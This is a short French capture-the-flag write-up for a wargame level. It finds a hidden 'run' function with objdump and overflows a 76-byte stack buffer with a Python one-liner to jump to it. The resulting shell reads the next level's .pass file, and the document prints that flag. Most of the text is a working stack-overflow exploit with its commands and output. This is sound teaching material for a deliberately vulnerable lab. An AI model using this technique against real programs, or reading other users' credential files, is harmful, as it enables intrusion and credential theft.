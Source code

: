 ## Level 1

On fait un `objdump -d  ~/level1`

On appercoit `main`, mais aussi `run`.
```
> objdump -d  ~/level1
[...]
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
[...]
08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
```

L'addresse de run est `08048444`
En notation little-endian, l'addresse est `\x44\x84\x04\x08`.

Dans le code C, on se rend compte qu'il ne peut avoir que 76 octet alloué. Il y a donc un **segault** à `76`.

On peut donc faire:
```
> python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/hack1
> cat /tmp/hack1 - |  ./level1
[...]
Good... Wait what?
cat /home/user/level2/.pass
[...]
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
``` 

Dans notre fichier hack1, on a donc 76 A + l'adresse de run

Ensuite, on a envoyé notre fichier sur l'entrée standart de `level1` et avec le flag `-` de cat, on peut entrer la commande nous permettant d'obtenir le flag.

